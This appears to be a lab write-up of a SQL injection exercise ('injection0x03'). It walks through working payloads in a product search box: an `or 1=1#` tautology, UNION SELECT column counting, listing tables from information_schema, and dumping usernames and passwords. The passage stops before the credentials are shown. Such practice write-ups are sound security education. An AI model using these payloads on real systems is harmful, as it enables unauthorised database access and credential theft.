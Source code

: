 We have 2 ways to do this :D

Manually using the **UNION SELECT** query or using `sqlmap`

***

We are giving a product page with the search functionality

![](https://i.imgur.com/TD2Rqgp.png)



Using this query in the search bar - `senpai' or 1=1#` we got back all the lists of product

![](https://i.imgur.com/UdjhrTL.jpg)


we can then advance our query by using **UNION SELECT**, like we said in the past modules, keep adding `null` till something clicks, this time we needed 4 nulls

```
senpai' union select null,null,null,null#
```


![](https://i.imgur.com/e2H7jSI.png)



We can then attempt to get all tables from this database by using the query as shown below

```
senpai' union select null,null,null,table_name from information_schema.tables#
```


![](https://i.imgur.com/GOQJ3Er.png)


Searching for **injection0x03** gives us a `_users` and `_products` table 
 
![](https://i.imgur.com/mxIbLRO.png)


We can then attempt to dump the content of this table, After much enumeration, i found out the **injection0x03_users** has only two columns which is `username` and password, Using the following queries we can dump them out

```sql
senpai' union select null,null,null,username from injection0x03_users#
```


![](https://i.imgur.com/BKUKrVt.png)



```
senpai' union select null,null,null,password from injection0x03_users#
```



![](https://i.imgur.com/SR50Gtn.png)


So definitely, our Username and password is 
